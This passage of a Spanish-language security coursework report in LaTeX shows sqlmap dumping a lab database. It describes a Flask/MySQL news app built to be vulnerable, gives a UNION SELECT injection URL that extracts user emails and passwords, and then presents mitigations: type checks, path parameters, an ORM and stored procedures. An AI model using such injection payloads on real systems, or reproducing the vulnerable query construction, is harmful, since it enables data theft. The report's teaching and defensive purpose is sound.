  
\includegraphics[scale=0.5]{images/sqlmap.png}\\
  \vspace{.5cm}
  
\includegraphics[scale=0.5]{images/sqlmap2.png}
  \caption{sqlmap ha sacado la versión de la base de datos}
  \label{fig:sqlmap}
\end{figure}

\newpage

Con esta herramienta podemos ir sacando información de manera incremental ya que sqlmap lleva un registro de lo que ha ido encontrando respecto a un endpoint y parte nuevamente de él haciendo más fácil su ejecución en futuras ocasiones. Con el comando anterior hemos podido sacar la versión de la base de datos.

\pagebreak
\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.6]{images/sqlmap3.png}
  \caption{sqlmap saca las tablas de la base de datos bsqli}
  \label{fig:sqlmap3}
\end{figure}

\pagebreak
\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.6]{images/sqlmap4.png}
  \caption{sqlmap saca las columnas de la tabla de usuarios}
  \label{fig:sqlmap4}
\end{figure}

Finalmente, podemos pedir un dump completo de la base de datos y generar un archivo csv con los datos del mismo [Ver \ref{lst:csv}] con el siguiente comando [Fig. \ref{fig:sqlmap5}]:

\pagebreak
\lstinputlisting[caption={CSV con los datos del dump}, label={lst:csv}]{usuarios.csv}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.6]{images/sqlmap5.png}\\
  \vspace{.5cm}
  
\includegraphics[scale=0.6]{images/sqlmap6.png}
  \caption{sqlmap saca un dump completo de la base de datos}
  \label{fig:sqlmap5}
\end{figure}

\newpage

\section{Identidades digitales}
\begin{enumerate}[label=\textbf{\alph*)}]
\item Esta aplicación se ha programado en Python con las siguientes herramientas:
\begin{itemize}
\item Flask como framework para gestionar la aplicación \cite{flask}.
\item MySQL como gestor de base de datos \cite{mysql}.
\item Bootstrap como framework de templates \cite{bootstrap}.
\end{itemize}

El código fuente de la aplicación así como el script de SQL para construir la aplicación quedan adjuntos en el directorio \textit{identidades/} así como en el anexo [Ver \ref{ann:app_mysql.py}].\\

Vistas de la aplicación:

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/index.png}\\
  \caption{Vista principal. Consiste en una versión reducida de las noticias que contiene la página web así como accesos directos a las otras páginas.}
  \label{fig:index}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics{images/logout.png}\\
  \caption{Detalle de logout. Cuando un usuario está registrado en la página aparece el botón para desloguearse.}
  \label{fig:logout}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/login.png}\\
  \caption{Vista de login.}
  \label{fig:login}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.2]{images/news.png}\\
  \caption{Vista detalle de una noticia. Al estar logueado y seleccionar una noticia se muestra el artículo completo.}
  \label{fig:news}
\end{figure}

\pagebreak

La aplicación en primera instancia no deja ver el detalle de la noticia y redirige a la página de Login, una vez logueado sí podrá ver noticias.\\

También se puede registrar a un usuario mediante el formulario de registro y usar los credenciales proporcionados para loguearse en el futuro.
\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/register2.png}\\
  
\includegraphics[scale=0.5]{images/select_users.png}\\
  \caption{Vista para registrar usuario y constancia del registro en la base de datos.}
  \label{fig:register}
\end{figure}
\vspace{.5cm}

\textbf{Esquema de la base de datos}\\

La base de datos MySQL llamada ``identididades'' consiste en 2 tablas con el siguiente esquema \ref{ann:schema.sql}\\

\textbf{News}
\begin{itemize}
\item Id: Integer, Primary Key.
\item Title: Text, not null.
\item Body: Text.
\item Datetime: Timestamp
\end{itemize}

\textbf{Users}
\begin{itemize}
\item AccountId: Integer, Primary Key.
\item Email: Text, not null.
\item Name: Text, not null.
\item Password: Text, not null.
\end{itemize}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/describe.png}\\
  \caption{Vista detalle del esquema de la base de datos.}
  \label{fig:db_structure}
\end{figure}

\item Para ver una noticia se carga por parámetro GET el id de la misma, este parámetro es recogido por la aplicación y consutrye la query a base de datos. De esta forma se puede seleccionar el artículo pero al mismo tiempo deja a la aplicación vulnerable a un ataque por SQL Injection.

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/news2.png}\\
  \caption{Vista detalle de una noticia.}
  \label{fig:news2}
\end{figure}

\lstinputlisting[language=Python, firstline=46, lastline=52, caption={Captura de GET param}]{app_mysql.py}

\lstinputlisting[language=Python, firstline=31, lastline=37, caption={Query a Base de datos}]{app_mysql.py}

Un usuario malicioso podría sacar datos de la base de datos construyendo una query a base de datos aprovechando el parámetro GET:
\begin{lstlisting}
http://localhost:5000/news?id=-3%20union%20select%20accountid,email,name,password%20from%20Users
\end{lstlisting}
Esta dirección será interpretada por la web como la siguiente query a base de datos:
\begin{lstlisting}[language=SQL]
'SELECT * FROM News WHERE Id = -3 UNION SELECT accountid,email,name,password FROM Users;'
\end{lstlisting}

Esta query, por tanto, devolverá información de la tabla de usuarios y la aplicación lo mostrará como si se tratara de una noticia.

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/sqli.png}\\
  \caption{SQL injection en parámetro GET. Se obtiene la información de un usuario en vez de un artículo.}
  \label{fig:sqli}
\end{figure}

\item En este apartado se proponen diversas técnicas para securizar la aplicación.

\textbf{Comprobación del tipo}\\
Una manera de securizar la aplicación podría ser comprobando que, efectivamente, el id del artículo es del tipo correspondiente al que tenemos en base de datos, un entero.\\

\lstinputlisting[
	language=Python,
	caption={Modificaciones efectuadas en la aplicación para comprobar el tipo},
	firstline=46,
	lastline=51
]{app_type_check.py}

Al hacer esta comprobación, la aplicación deja de funcionar si se intenta hacer una inyección.

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/news2.png}\\
  \vspace{.5cm}
  
\includegraphics[scale=0.3]{images/nok.png}
  \caption{Vista detalle de una noticia e inyección insatisfactoria.}
  \label{fig:news2}
\end{figure}

Concretamente se muestra este error:
\begin{lstlisting}
ValueError: invalid literal for int() with base 10: '3 union select accountid,email,name,password from users'
127.0.0.1 - - [09/Dec/2020 01:34:35] "GET /news?id=3%20union%20select%20accountid,email,name,password%20from%20users HTTP/1.1" 500 -
\end{lstlisting}

\textbf{Arquitecturas alternativas}\\
Se puede optar por otra arquitectura que mitigue la vulnerabilidad del parámetro GET; por ejemplo, en nuestro caso podríamos optar con obtener el id del artículo como parte de la URL tal que así:
\begin{lstlisting}
http://localhost:5000/news/1/
\end{lstlisting}
Siendo ``1'' el id del artículo y pasando a formar parte de la URL. Esto podría conseguirse modificando la función que obtiene el id del artículo para que prescinda del parámetro GET.\\

Las modificaciones que hay que hacer en el código son mínimas.

\lstinputlisting[
	language=Python,
	caption={Modificaciones efectuadas en la aplicación con arquitectura alternativa},
	firstline=46,
	lastline=51
]{app_alt_architecture.py}

\lstinputlisting[
	language=HTML,
	caption={Modificaciones efectuadas en el template con arquitectura alternativa},
	firstline=62,
	lastline=62
]{templates/index_alt_architecture.html}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/alt_arch_ok.png}\\
  \caption{La página carga correctamente con el artículo dado por la URL}
  \label{fig:alt_arch}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.3]{images/nok.png}
  \caption{Al intentar una inyección, la página devuelve un error HTTP 404}
  \label{fig:alt_arch}
\end{figure}

\textbf{Uso de ORMs}\\
En los últimos años el uso del \textit{Object Relational Mapping} (ORM) en el desarrollo web se ha popularizado. Esta técnica consiste en utilizar el paradigma de programación orientado a objetos (POO) para crear una clase que represente una entidad en la base de datos. Las aplicaciones orientadas a objetos consiguen la persistencia utilizando sistemas de bases de datos relacionales de tal forma que se relacionan los objetos a tablas \cite{orm} y se elimina el uso de queries en raw para acceder a base de datos añadiendo una capa de abstracción.\\

En este proceso de securización se ha utilizado la librería de SQLAlchemy para relacionar los objetos declarados en la aplicación a tablas de una base de datos. 

\UseRawInputEncoding
\lstinputlisting[
	language=Python, 
	lastline=33, 
	caption={Declaraciones de las entidades User y News}
]{app_orm.py}

Las funciones que anteriormente hacían uso de queries a base de datos ahora pueden servirse de los objetos relacionales para hacer consultas a o escribir en base de datos.

\lstinputlisting[
	language=Python, 
	firstline=85, 
	lastline=88, 
	caption={Modificaci\'on de $query\_news()$ para utilizar la entidad News}
]{app_orm.py}

\lstinputlisting[
	language=Python, 
	firstline=122, 
	lastline=124, 
	caption={Modificaci\'on de $login()$ para utilizar la entidad User}
]{app_orm.py}

También deberán modificarse las templates puesto que ahora se pasa un objeto relacional al contexto y no una tupla.

\lstinputlisting[
	language=HTML, 
	firstline=55, 
	lastline=67, 
	caption={Cambios en index.html template para integrar ORM}
]{templates/orm/index.html}

\lstinputlisting[
	language=HTML, 
	firstline=51, 
	lastline=55, 
	caption={Cambios en news.html template para integrar ORM}
]{templates/orm/news.html}

\item Un \textit{Stored Procedure} en SQL es un código que se puede guardar en la base de datos para ser reutilizado. En el caso de que tengamos que escribir una query una y otra vez podemos optar por crear un \textit{Stored Procedure} para llamarlo y que sea este quien ejecute la query \cite{w3schools}.\\

Podemos utilizar esta técnica para la página de noticias cuando selecciona un artículo de la base de datos y securizar así frente a la inyección SQL ya que un \textit{Stored Procedure} nos permite definir parámetros y así delimitar lo que podemos pasar por id de artículo.\\

Se ha añadido el siguiente código en el archivo schema.sql:
\lstinputlisting[caption={Stored Procedure para obtener un artículo de la tabla News dado el id del artículo por parámetro}, firstline=47, language=SQL]{schema.sql}
El \textit{ArticleId} es el parámetro que se espera y es de tipo entero, por tanto, un usuario no podrá inyectar la misma query que antes.\\

También se ha modificado el siguiente código de la aplicación:
\lstinputlisting[language=Python, firstline=31, lastline=37, caption={Modificación de la función query\_news para que utilice el Stored Procedure}]{app_stored_procedure.py}

Si dada esta nueva configuración intentamos la misma inyección la aplicación entonces fallará por un error de base de datos.

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.3]{images/nok.png}\\
  \vspace{1cm}
  
\includegraphics[scale=0.5]{images/stored_procedure2.png}
  \caption{Error en la página al intentar la inyección SQL. Error del conector a la base de datos debido a un fallo de sintaxis SQL.}
  \label{fig:stored_procedure}
\end{figure}

\end{enumerate}

\section{Inyección en base de datos NoSQL}
\begin{enumerate}[label=\textbf{\alph*)}]
\item Para este ejercicio se ha creado una base de datos NoSQL MongoDB \cite{mongo} con el mismo contenido que en el apartado anterior. Se ha cambiado el código de la aplicación para que utilice un conector diferente para obtener los datos [Ver \ref{ann:app_nosql.py}] y algunas modificaciones en las templates para mostrar los datos [Ver \ref{ann:nosql_mods}].
\begin{figure}[h!]
  \centering
